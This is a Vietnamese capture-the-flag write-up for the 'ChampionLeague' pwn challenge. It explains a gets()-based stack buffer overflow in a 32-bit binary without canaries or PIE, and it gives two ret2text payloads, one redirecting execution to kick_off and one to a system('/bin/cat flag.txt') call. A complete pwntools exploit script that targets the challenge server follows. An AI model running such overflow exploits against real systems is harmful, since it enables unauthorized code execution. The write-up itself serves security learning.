

## ⚡ [ChampionLeague](https://ctf.hcmus.edu.vn/challenges#ChampionLeague)

[](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)
[](https://img.shields.io/badge/member-viplazy-brightgreen.svg)
[](https://img.shields.io/badge/188-pts-brightgreen.svg)

Tác giả: `pakkunandy`


Tags: `pwn` `bof` `ret2text` `arg`


### Challenge Description
I will make you learn something about soccer. Follow my lead.

### Summary

Đây là challenge về buffer overflow kết hợp với truyền arguments cho hàm được gọi.  
Đầu tiên, kiểm tra thông tin binary:

```bash
$ checksec cl
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Chương trình này chạy trên nhân x86, đã tắt hầu hết các bảo vệ.

Mở chương trình với **IDA**, ta thấy hàm **main** chỉ gọi hàm **pick_player** chứ không làm gì thêm.

```cpp
char *pick_player()
{
  char v1; // [sp+0h] [bp-88h]@1
  char s; // [sp+44h] [bp-44h]@1

  puts("Player's name:");
  gets(&s);
  puts("Club's name:");
  return gets(&v1);
}
```
Tìm trong cửa sổ function, ta thấy thêm hàm **kick_off**:

```cpp
int __cdecl kick_off(int a1, int a2)
{
  int result; // eax@1

  result = _x86_get_pc_thunk_ax() + 6788;
  if ( a1 == 2355 && a2 == 120 )
    result = system(&aBinCatFlag_txt[result - 134520832]);
  return result;
}
```

Hàm **kick_off** này nhận vào 2 tham số (arguments), kiểm tra nó thiếu thỏa điều kiện sẽ trả về flag. Tuy nhiên, hàm này lại không được gọi ở main, vì thế ta sẽ buffer overflow tại **pick_player** để gọi và thực thi để nhận flag. 


### Exploit #1 kick_off

- Stack tree
    
    Cách bố trí các địa chỉ và vùng nhớ trên stack được cho như trong hình dưới đây
    [](http://library.bagrintsev.me/ASM/Professional%20Assembly%20Language.2005.pdf)
    > Professional Assembly Language by Richard Blum p.311

    Như vậy, đối với hàm **pick_player**, ta đang nhập dữ liệu vào `Local Varibles` ở phía dưới, mục tiêu là ghi đè lên `Return Address` (nơi đang lưu địa chỉ tiếp theo sẽ thực thi trong hàm `main`), thành địa chỉ của hàm `kick_off`.

    Đối với hàm `kick_off`, bản thân nó sẽ cần 2 arguments, nên ta tiếp tục bố trí lần lượt 2 giá trị thỏa biểu thức so sánh phía dưới lên stack.

- Tìm vị trí địa chỉ trả về của hàm `pick_player`
    ```bash
    $ python -c 'print "A"*72 + "BBBB" + "\n"' | strace ./cl
    --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x42424242} ---
    +++ killed by SIGSEGV (core dumped) +++
    Segmentation fault (core dumped)
    ```
    Như vậy, sau **72** bytes offset thì địa chỉ trả về của hàm main (si_addr) bị ghi đè thành "BBBB" (là giá trị địa chỉ lệnh không hợp lệ dẫn đến break chương trình).


- Xây dựng payload

    Arguments
    ```python
    kick_off_addr = ELF("./cl").sym["kick_off"]
    arg1 = p32(2355)
    arg2 = p32(120)
    ```

    Cấu trúc payload: 
    ```python
    payload = "A" * offset + kick_off_addr + arg1 + arg2
    ```

    Gửi payload này lên server và nhận flag!

### Exploit #2 system function

- Đánh giá
  
  Cách này gần như tương tự cách bên trên, nhưng thay vì truyền tham số cho hàm `kick_off`, ta sẽ truyền tham số cho hàm `system` nằm trong biểu thức điều kiện thỏa mãn của `kick_off` luôn.   
  Đối với `kick_off`, vấn đề xảy ra khi 2 tham số được truyền vào hàm có chứa byte giá trị 0, tức sẽ terminate ngay hàm `gets` dẫn đến chưa đọc hết payload, khiến cho 2 tham số truyền vào bị sai.  
  

- Lấy địa chỉ gọi câu lệnh system thông qua `gdb`:

    ```peda
    gdb-peda$ disass kick_off
    Dump of assembler code for function kick_off:
    ...
    0x0804859c <+44>:    push   DWORD PTR [ebp-0xc]
    0x0804859f <+47>:    mov    ebx,eax
    --> 0x080485a1 <+49>:    call   0x80483d0 <system@plt>
    0x080485a6 <+54>:    add    esp,0x10
    0x080485a9 <+57>:    nop
    ...
    ```

    Kết quả: **`0x080485a1`**

- Lấy địa chỉ của chuỗi `bin/cat flag.txt`:
    
    ```bash
    $ ROPgadget --binary cl --string '/bin/cat flag.txt'
    Strings information
    ============================================================
    0x08048730 : /bin/cat flag.txt
    ```
    
    Vì chuỗi này sẽ được gọi trong hàm `kick_off` nên nó đã được khai báo sẵn trong binary. Nói cách khác, như vậy giá trị địa chỉ nó đủ lớn để không chứa byte giá trị 0, giải quyết được vấn đề phía trên.  
    Kết quả: **`0x08048730`**

- Local exploit
    
    Cấu trúc payload: `payload = "A" * offset + system_addr + arg1`

    ```python
    payload = "A"*72 + "\xa1\x85\x04\x08" + "\x30\x87\x04\x08"
    ```

    Thành công, ta chạy trên server và lấy flag thôi!

## Code

```python
#!/usr/bin/env python

from pwn import *
e = ELF("./cl")

p = remote("159.65.13.76", 61234)
#p = process("./cl")

offset = 72

# This for exploit #1 (didnt check yet)
kick_off_addr = e.sym["kick_off"]
arg1 = 2355
arg2 = 120

payload1 = 'A'*offset + p32(kick_off_addr) + p32(arg1) + p32(arg2)


# This for exploit #2 (worked)
# ROPgadget --binary cl --string '/bin/cat'
bincat = 0x8048730
systemc = 0x080485a1

payload2 = 'A'*offset  + p32(systemc) + p32(bincat)


# final payload
payload = payload2

p.sendline(payload + "\n")
p.interactive()
```


📫 Flag: **`HCMUS-CTF{}`**

---
*[Back to table of contents](../README.md)*
